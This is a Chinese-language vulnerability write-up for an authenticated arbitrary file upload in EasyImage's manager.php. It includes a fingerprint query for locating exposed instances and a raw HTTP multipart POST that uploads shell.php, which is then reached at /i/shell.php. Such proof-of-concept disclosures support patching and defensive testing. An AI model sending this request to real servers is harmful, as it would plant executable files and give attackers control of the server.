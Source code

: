 # EasyImage manager.php 后台任意文件上传漏洞

## 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba-20230406183127512.png)

登陆后台后发送POC (通过任意文件读取获取账号密码)

```plain
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Length: 1622
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1680344820983-7383f2b8-c760-4a7e-952f-6c4ff7617027.png)

上传访问地址为 

```plain
/i/shell.php
```